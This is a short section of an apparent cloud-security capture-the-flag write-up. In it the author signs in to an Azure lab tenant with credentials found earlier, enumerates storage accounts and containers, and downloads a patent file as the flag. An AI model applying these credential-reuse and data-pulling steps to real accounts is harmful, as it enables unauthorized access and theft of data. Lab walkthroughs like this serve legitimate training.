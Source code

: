

## 5.4 New user serveruser
Using the credentials we found, I was able to connect to Azure and capture the flag!!


```bash
$ az login -u serveruser@megabigtech.com -p '*****'
Authentication with username and password in the command line is strongly discouraged. Use one of the recommended authentication methods based on your requirements. For more details, see https://go.microsoft.com/fwlink/?linkid=2276314
[
  {
    "cloudName": "AzureCloud",
    "homeTenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "id": "ceff06cb-e29d-4486-a3ae-eaaec5689f94",
    "isDefault": true,
    "managedByTenants": [],
    "name": "Microsoft Azure Sponsorship",
    "state": "Enabled",
    "tenantDefaultDomain": "megabigtech.com",
    "tenantDisplayName": "Default Directory",
    "tenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "user": {
      "name": "serveruser@megabigtech.com",
      "type": "user"
    }
  }
]



$ az storage account list    
     "services": {                                                               
        "blob": {                                                                
          "enabled": true,                                                       
          "keyType": "Account",                                                  
        },                                                                       
        "file": {                                                                
          "enabled": true,                                                       
          "keyType": "Account",                                                  
        },                             

$ az storage container list --auth-mode login --account-name storageqaenv --output table
Name              Lease Status    Last Modified
----------------  --------------  -------------------------
general-purpose                   2023-12-17T02:53:12+00:00
patent-documents                  2023-12-17T04:12:44+00:00
server-files                      2023-12-18T23:08:26+00:00

az storage blob download --auth-mode login --account-name storageqaenv -c patent-documents -n 'Granted Patent.txt'  



```
![](https://i.imgur.com/mFn5Nqz.png)
